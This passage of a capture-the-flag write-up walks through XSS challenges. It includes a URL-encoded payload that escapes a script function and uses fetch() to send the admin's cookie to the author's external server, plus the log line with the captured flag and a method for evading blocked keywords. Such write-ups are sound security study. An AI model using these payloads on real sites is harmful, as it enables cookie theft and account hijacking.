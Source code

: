As you can see from the syntax highlighting, at the first insertion site our payload is
basically just ignored as one big string followed by a comment. In contrast, the second
one escapes the function, sends the cookie to our server, and matches the function's
original closing brace just as my payload for XSS Green did.

URL encoding the payload (from Figure 7) and passing that as the `js` query parameter
of the URL we send to the admin gives us the flag;
https://blue.web.ctf.bsidesbne.com/?js=%22%3B%27%3B%7D%20fetch%28%60https%3A%2F%2Fbackend.stackotter.dev%3A8000%2F%3F%60%2Bdocument.cookie%29%3B%7B%20%2F%2F%27%2F%2F

```
3.24.244.16 - - [23/Jul/2023 13:29:40] "GET /?flag=flag{e7eaae85f7c752303c9d4520a06ccc39} HTTP/1.1" 200 -
```
Figure 9: *the line of the server logs containing the flag.*

Flag: `flag{e7eaae85f7c752303c9d4520a06ccc39}`

The solution could've been improved in the same ways as XSS Green, but overall I think it was
probably pretty close to the intended solution.

---

## XSS Orange (web - 350 points)

> Can you leak the admin's cookies?
>
> Author: mnz

Again this challenge was pretty similar to XSS Blue and XSS Green in nature, except this
time the website was orange! (surprise)

The main twist this time was that there were now blocked keywords (such as `window` and `function`).
Also, our input now gets put in 3 spots.

```js
function deadcode(your_input_here) {
  if (your_input_here) {
    var params = {};
    params['noot'] = "your_input_here";
    return params;
  }
}
```
Figure 10: *the script that our input gets inserted into.*

I'll try my best to explain the rough thought process I followed (as much of it as I can
remember), but honestly these kinds of challenges are mostly just intuition with trial and error
for me so it's pretty hard to give solid advice on how to solve them.

The first thing to notice is that the third location (the double quoted string) is the odd
one out and we can easily just ignore it by not using newlines or double quotes. This
simplifies things a bit. Next, we can see that the biggest challenge is that the first
insertion point has to end up looking like a function parameter list (which is quite a
bit stricter than the if condition insertion point). Because of that observation, I started
my payload with `x)` to make that valid and immediately escape it. Next I provided a function
body that sends the cookie to our server, and after the function body I call `deadcode`. Now
we just need to make sure that the payload cleanly matches up all of the closing delimiters
of the things that it escaped. Because the `function` keyword is blocked we can't simply use
`function (` to match `) {`, but luckily we can just use a comment to ignore the `) {` immediately
after our input and then use `() => {` to match the original closing brace of the function.
We can't just use `{` because there's an if statement between the braces, which wouldn't be
valid as part of an object literal. With a few tweaks it's not too difficult to ensure that
the payload quietly works at the if statement insertion point too (it doesn't actually get
run so it just needs to be syntactically valid).
